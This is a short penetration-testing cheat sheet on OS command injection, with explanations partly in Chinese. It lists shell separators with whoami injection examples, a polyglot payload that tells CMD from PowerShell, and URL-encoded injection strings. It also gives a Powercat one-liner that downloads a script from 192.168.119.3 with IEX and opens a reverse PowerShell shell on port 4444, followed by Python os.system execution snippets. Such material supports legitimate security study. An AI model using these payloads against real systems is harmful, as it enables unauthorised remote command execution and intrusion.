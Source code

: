 ### OS Command Injection
###### Common ways
```
;：执行完前面的语句再执行后面的。例如： ping 127.0.0.1;whoami。
|：显示后面语句的执行结果。例如： ping 127.0.0.1|whoami。
||：或，如果前面命令成功执行，那么命令结束执行；当前面的语句执行出错时，执行后面的语句。例如： ping 127.0.0.1||whoami。
&：如果前面的语句为假则直接执行后面的语句，前面的语句可真可假 。例如： ping 127.0.0.1&whoami。
&&：如果前面的语句为假则直接出错，也不执行后面的，前面的语句只能为真。例如： ping 127.0.0.1&&whoami。
```
###### Powershell Or CMD
```
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
urlencode((dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell)
```
###### Powercat
>Powercat is a PowerShell implementation of Netcat included in Kali
```
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell
urlencode(git;IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.119.3/powercat.ps1");powercat -c 192.168.119.3 -p 4444 -e powershell)
```
### Python3 Command Execution
```
__import__('os').system('cmd')
os.system("whoami")
```
